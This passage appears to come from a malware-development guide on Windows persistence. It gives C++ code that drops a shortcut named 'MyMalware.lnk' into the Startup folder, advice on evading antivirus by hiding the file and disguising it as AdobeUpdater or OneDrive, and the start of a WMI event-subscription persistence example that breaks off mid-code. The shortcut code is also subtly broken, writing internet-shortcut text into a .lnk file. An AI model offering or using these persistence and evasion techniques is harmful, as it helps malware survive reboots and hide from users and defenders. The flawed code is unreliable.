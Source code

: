 #### Adding a Shortcut to the Startup Folder
- For the current user: `C:\Users\<User>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- For all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

#### Example: Adding a Shortcut in C++
```cpp
#include <windows.h>
#include <shlobj.h>
#include <iostream>

int main() {
    // Get path to the Startup folder
    char startupPath[MAX_PATH];
    if (SHGetSpecialFolderPathA(NULL, startupPath, CSIDL_STARTUP, FALSE)) {
        std::string shortcutPath = std::string(startupPath) + "\\MyMalware.lnk";
        std::string exePath = "C:\\path_to_malicious_executable.exe";

        // Create a shortcut (simplified example, typically done via IShellLink interface)
        std::ofstream shortcut(shortcutPath);
        shortcut << "[InternetShortcut]\nURL=file:///" << exePath;
        shortcut.close();

        std::cout << "Shortcut added to Startup folder for persistence!" << std::endl;
    } else {
        std::cerr << "Failed to get Startup folder path." << std::endl;
    }

    return 0;
}
```

##### AV Evasion Strategies
- Hidden Files: Set the shortcut as a hidden file to avoid user detection.
- Mimic Legitimate Programs: Name the shortcut after legitimate programs that commonly run at startup (e.g., "AdobeUpdater" or "MicrosoftOneDrive").

# WMI Event Subscription
Windows Management Instrumentation (WMI) provides another avenue for malware to establish persistence by creating an event subscription. The malware can subscribe to specific system events, such as system startup or user logon, and automatically trigger code execution.

#### Setting up WMI Persistence
Using the WMI command-line utility (`wmic`), you can set up an event filter and consumer that will execute malicious code on a specific event.

#### Example: WMI Persistence in C++ (using WMI COM Interfaces)
```cpp
#include <wbemidl.h>
#include <windows.h>
#include <iostream>

#pragma comment(lib, "wbemuuid.lib")

int main() {
    HRESULT hres;

    // Initialize COM library
    hres = CoInitializeEx(0, COINIT_MULTITHREADED);
    if (FAILED(hres)) {
        std::cerr << "Failed to initialize COM library." << std::endl;
        return -1;
```
